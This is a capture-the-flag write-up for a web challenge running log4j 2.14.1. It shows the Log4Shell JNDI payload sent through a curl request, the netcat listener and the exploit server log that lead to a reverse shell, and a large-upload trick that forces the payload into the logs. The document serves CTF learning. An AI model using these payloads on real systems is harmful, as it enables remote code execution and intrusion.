

# WEB //   🧑‍🎨 Text Polyfill

We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!

[⬇️ text-polyfill.zip](./text-polyfill.zip)

# Writeup

I saw in the [pom.xml](./source/pom.xml) that they used log4j 2.14.1. This one has the populare `log4shell` vulnerability. 

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

My first thought was to spin up `jndi.jar` which I had from a previous challenge where they used the same exploit. 

```bash
$ java -jar jndi.jar -i <myserverip>
java -jar jndi.jar -i 0.0.0.0
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
```
Then opened a simple `nc` listening to port 1234 with `nc -knlvp 1234` and run a request using user-agent header as the payload bearer.

```bash
curl https://text-polyfill-982935551e3a.1753ctf.com/ -v -H "User-Agent: \${jndi:ldap://13.51.X.X:1389/Basic/ReverseShell/13.51.X.X/1234}"
```

But no, cloudfront was blocking my request. So I neeed to figure out if the server was vulnerable.
Looking at the code of [ImageTextServer.java](./source/src/main/java/com/ctf/ImageTextServer.java) I see that if it throws an exception while trying to add text to my image I will log the `text` parameter we ship. If we add the payload there and make it throw an exception.

@morty linked me to this [Log4Shell tester](http://mtest.malpasonline.co.uk/) which was a faster method to test so I used this until I found a working method.

I tried a lot of things:
- Invalid files (movies, exe, txt)
- Image with very small size
- Very long text after the payload
- Image with 5mb, 20mb

Then I thought maybe I could make it throw by just giving it evem bogger images? Memory exception? I tried to upload a 100MB file and it worked.



Now just startup jndi.jar and use the original payload and Profit!

```bash
$ java -jar jndi.jar -i 13.51.X.X
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: Basic/ReverseShell/13.51.X.X/1234
[+] Paylaod: reverseshell
[+] IP: 13.51.X.X
[+] Port: 1234
[+] Sending LDAP ResourceRef result for Basic/ReverseShell/13.51.X.X/1234 with basic remote reference payload
[+] Send LDAP reference result for Basic/ReverseShell/13.51.X.X/1234 redirecting to http://13.51.X.X:8080/Exploit6AooDuovcP.class
[+] New HTTP Request From /68.183.X.X:60182  /Exploit6AooDuovcP.class
[+] Receive ClassRequest: Exploit6AooDuovcP.class
[+] Response Code: 200
```

And suddenly in my netcat window I had shell access and could get the flag. The flag seems to be in the environment variable `flag` according to the java file. 

```bash
nobody@648887927c45:/app$ echo $flag
1753c{generate_text_to_get_an_epic_rce}
```